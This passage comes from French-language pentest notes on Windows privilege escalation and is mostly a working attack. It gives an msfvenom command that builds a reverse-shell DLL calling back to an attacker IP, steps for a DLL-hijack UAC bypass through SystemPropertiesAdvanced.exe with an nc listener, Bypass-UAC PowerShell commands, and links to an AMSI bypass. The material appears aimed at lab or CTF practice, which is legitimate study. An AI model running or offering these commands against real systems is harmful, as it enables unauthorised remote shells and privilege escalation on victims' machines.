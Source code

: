 
### 2. Créer une dll malveillante

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```


### 3. Transférer la dll sur la target et la mettre dans un dossier du path


### 4. Lancer listener

```bash
nc -lvnp 8443
```

### 5. Vérifier que rundll32 ne tourne pas

```cmd
tasklist /svc | findstr "rundll32"
```

```cmd
taskkill /PID 7044 /F
```

### 6. Exécuter le programme vulnérable appelant la DLL. (sensible à la casse)

```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## Script Bypass-UAC (WIN7/10)

https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC

```powershell
Import-Module .\Bypass-UAC.ps1
```

```powershell
Bypass-UAC -Method UacMethodSysprep
```


---
# SERVICES

Tools:
[[SHARPUP (Services - Registre)]] (exe)
[[POWERUP (Services - Registre)]] (ps1 -> [[BYPASS AV - EDR#AMSI Bypass]])
